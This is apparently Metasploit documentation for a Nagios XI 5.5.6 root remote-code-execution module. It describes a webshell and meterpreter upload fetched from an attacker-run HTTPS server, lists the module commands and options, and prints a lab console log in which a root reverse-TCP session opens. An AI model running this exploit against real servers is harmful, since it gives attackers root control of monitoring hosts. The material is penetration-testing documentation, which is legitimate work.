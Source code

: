 ## Vulnerable Application

Nagios XI 5.5.6 Root Remote Code Execution

The exploit works as follows:

- A local HTTPS server is setup. When it is reached, this server responds with a payload.
- By crafting a malicious request, we make the target host send a request to our HTTPS server. Therefore, the local HTTPS server must be reachable from outside your private network (except if the Nagios server is in the same network as yours obviously), this is what the RSRVHOST and RSRVPORT options are for. The malicious request allows for file upload. A PHP webshell and a meterpreter executable are uploaded.
- A command is executed thanks to the webshell. This command elevates privileges and run the meterpreter executable, giving us a meterpreter session.

# Creating A Testing Environment

- Install a Ubuntu Linux LTS (I used 18.04 LTS for my tests) in a VM.
- Download Nagios XI 5.5.6 from the official website (https://www.nagios.com/downloads/nagios-xi/older-releases/).
- Follow the official instructions to install it on your Ubuntu VM (https://assets.nagios.com/downloads/nagiosxi/docs/Installing-Nagios-XI-Manually-on-Linux.pdf).

## Verification Steps

1. `use exploit/linux/http/nagios_xi_root_rce`
2. `set RHOSTS [IP]`
3. `set RSRVHOST [IP]`
4. `exploit`

A meterpreter session should have been opened successfully and you should be root

## Options

## RSRVHOST

IP at which your local HTTPS can be reached. Most of the time it will be a public IP (e.g. your router IP if you have port forwarding).

## RSRVPORT

Port that will forward to your local HTTPS server.

## SRVHOST

IP of your local HTTPS server (must be a local IP).

## SRVPORT

Port to listen to for your local HTTPS server.

## Scenarios

## Nagios 5.5.6 on Ubuntu 18.04 LTS

```
msf5 exploit(linux/http/nagios_xi_magpie_debug) > show options

Module options (exploit/linux/http/nagios_xi_magpie_debug):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  5                no        Number of seconds the web server will wait before termination
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.16.135.129   yes       The target address range or CIDR identifier
   RPORT      443              yes       The target port (TCP)
   RSRVHOST   172.16.135.1     yes       A public IP at which your host can be reached (e.g. your router IP)
   RSRVPORT   8080             yes       The port that will forward to the local HTTPS server
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.16.135.1     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nagios XI 5.5.6


msf5 exploit(linux/http/nagios_xi_magpie_debug) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 172.16.135.1:4444 
msf5 exploit(linux/http/nagios_xi_magpie_debug) > [*] Using URL: https://0.0.0.0:8080/ixFonv2
[*] Local IP: https://192.168.0.21:8080/ixFonv2
[*] Server started.
[*] nZOnJhGnMb.php uploaded with success!
[*] Using URL: https://0.0.0.0:8080/mTwEwHtAuz0V
[*] Local IP: https://192.168.0.21:8080/mTwEwHtAuz0V
[*] Server started.
[*] SQmBobwBzw uploaded with success!
[*] Sending stage (985320 bytes) to 172.16.135.129
[*] Meterpreter session 1 opened (172.16.135.1:4444 -> 172.16.135.129:33090) at 2019-06-25 16:13:01 -0500
[+] Deleted /usr/local/nagvis/share/nZOnJhGnMb.php
[+] Deleted /usr/local/nagvis/share/SQmBobwBzw
[!] This exploit may require manual cleanup of '/var/tmp/mtrhbwFZHa.nse' on the target
[*] Server stopped.

msf5 exploit(linux/http/nagios_xi_magpie_debug) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 172.16.135.129
OS           : Ubuntu 18.04 (Linux 4.18.0-15-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > 
```
